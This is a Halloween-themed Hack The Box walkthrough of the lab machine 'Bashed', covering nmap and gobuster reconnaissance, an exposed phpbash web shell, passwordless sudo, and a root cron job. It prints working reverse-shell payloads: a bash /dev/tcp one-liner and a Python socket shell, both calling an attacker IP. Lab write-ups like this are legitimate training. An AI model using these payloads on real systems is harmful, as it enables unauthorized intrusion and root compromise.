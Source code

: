 # HTB_Bashed
My writeup of the HTB Bashed machine.


🎃 Bashed - Hack The Box Walkthrough (Spooky Edition!) 🎃
Hack The Box Logo with Jack-O'-Lanterns

Machine Name: Bashed 🕷️
Difficulty: Easy (But Beware of Ghosts in the Shell! 👻💻)
Author: Lantern
Date Pwned: April 2025

🌑 Description: A Haunting in the Server
Bashed is an easy-rated but spooky machine on Hack The Box, lurking in the shadows with:

A cursed /dev directory (home to a possessed phpbash.php web shell)

A ghostly cron job running as root every full minute (👀)

Sudo permissions that scream "BOO!" (Allowing www-data to become scriptmanager with no password!)

Will you escape with the flags, or will the server's spirits trap you forever?

🕵️ Steps to Root (If You Dare...)
1. The Haunted Reconnaissance 🔍
Port Scanning with Nmap (By Candlelight 🕯️)
bash
nmap -sV -sC 10.10.10.68
Findings:

![1 nmap](https://github.com/user-attachments/assets/119d0d04-9b3a-4b2c-8252-725d96554d39)


Only port 80 (HTTP) is open—like a single flickering light in a haunted house.

Running Apache 2.4.18 (an ancient version, whispering vulnerabilities in the wind).

Web Enumeration (Tiptoeing Through the Directories)
Manual Browsing:

A blog post cryptically mentions "phpbash"—could it be the ghost in the machine?

Directory Fuzzing (Gobuster, the Digital Lantern 🔦):

```bash
gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Key Findings:

/dev → Contains phpbash.php (a cursed web shell).

![2 php](https://github.com/user-attachments/assets/32cdd10f-2fd1-4852-b0b7-1cfe8e32defc)


/uploads → Echoes of forgotten files...

2. Summoning the Shell (Initial Access) 🧙‍♂️
Exploiting phpbash.php (The Possessed Script)
Navigate to the haunted /dev directory:

http://10.10.10.68/dev/phpbash.php
A ghostly terminal appears! (You now have www-data access.)

![3 uploads](https://github.com/user-attachments/assets/aa5be0d1-9a52-469d-8286-b75bc9eda30c)


Conjure a reverse shell (Beware of spirits interfering!):

On attacker machine (by the firelight 🔥):

```bash
nc -nvlp 1234
```

![4 shell](https://github.com/user-attachments/assets/a05448f2-3857-4405-b329-4de8740d578a)


In phpbash (chanting the incantation):

```bash
bash -c 'bash -i >& /dev/tcp/YOUR_IP/1234 0>&1'
```

Stabilize the connection (before the ghosts disconnect you!):

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

3. The Cursed Privilege Escalation ⚡
Checking sudo Permissions (The Witch’s Spellbook 📜)

```bash
sudo -l
```

Output (A Frightening Discovery!):

User www-data may run the following commands on bashed:  
    (scriptmanager : scriptmanager) NOPASSWD: ALL
"ALL" commands as scriptmanager?! This is black magic!

Becoming scriptmanager (The Transformation Ritual 🐍)\

```bash
sudo -u scriptmanager bash -i
```

![5 reverse shell](https://github.com/user-attachments/assets/6911748d-b817-40c5-865d-692fb2baef44)


You have assumed the identity of scriptmanager!

The Haunted /scripts Directory
A ghostly test.py script runs every minute as root!

test.txt is overwritten—proof of the undead cron job!

Exploiting the Cron Job (The Final Curse!)
Replace test.py with a reverse shell (Written in blood-red Python 🩸):

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("YOUR_IP",1111))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Set up a listener (The summoning circle 🔮):

```bash
nc -nvlp 1111
```

![6 root shell](https://github.com/user-attachments/assets/8075dbea-ab32-47be-8e99-c143d6a2cc52)


Wait... (The clock strikes midnight... ⏳)

ROOT SHELL OBTAINED! (The spirits bow before you! 👑)

🏴‍☠️ The Treasure (Flags)
User Flag (Hidden in the scriptmanager’s coffin 💀):

```bash
cat /home/*******/user.txt
```

Root Flag (The Phantom’s Final Secret 🗝️):

```bash
cat /****/root.txt
```

💀 Key Takeaways (Lessons from the Crypt)
✅ Always check /dev—it might contain a possessed shell!
✅ sudo -l reveals terrifying permissions (like ALL commands as another user!)
✅ Cron jobs are often run by root ghosts—check /etc/crontab!

